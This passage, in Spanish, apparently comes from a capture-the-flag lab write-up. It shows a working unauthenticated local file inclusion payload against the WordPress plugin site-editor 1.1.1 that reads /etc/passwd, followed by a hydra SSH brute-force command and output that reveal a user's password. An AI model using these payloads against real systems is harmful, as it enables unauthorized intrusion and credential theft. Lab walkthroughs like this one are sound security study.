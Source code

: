 ## Explotación: LFI en el plugin `site-editor`

Investigando sobre el plugin, confirmamos que **la versión 1.1.1** contiene una vulnerabilidad **LFI** no autenticada:

#### Payload funcional

```bash
http://asucar.dl/wp-content/plugins/site-editor/editor/extensions/pagebuilder/includes/ajax_shortcode_pattern.php?ajax_path=/etc/passwd
```

<img width="1912" height="240" alt="Image" src="https://github.com/user-attachments/assets/fefca116-4826-41f3-95bd-80e5c013d3f4" />


Esto nos permite leer archivos arbitrarios del sistema. De hecho, el archivo `/etc/passwd` nos revela un usuario interesante:

```bash
curiosito:x:1000:1000:Curiosito:/home/curiosito:/bin/bash
```


## Ataque de fuerza bruta: acceso SSH

Con el nombre de usuario `curiosito`, se intentó un ataque de fuerza bruta vía SSH usando `hydra`:

```bash
┌──(zikuta㉿zikuta)-[~]
└─$ hydra -l curiosito -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2 
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-07-17 17:12:03
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ssh://172.17.0.2:22/
[22][ssh] host: 172.17.0.2   login: curiosito   password: password1
1 of 1 target successfully completed, 1 valid password found
```

**Resultado exitoso**:

```bash
[22][ssh] host: 172.17.0.2   login: curiosito   password: password1
```

## Acceso al sistema: SSH interactivo

Se establece una sesión interactiva SSH con:
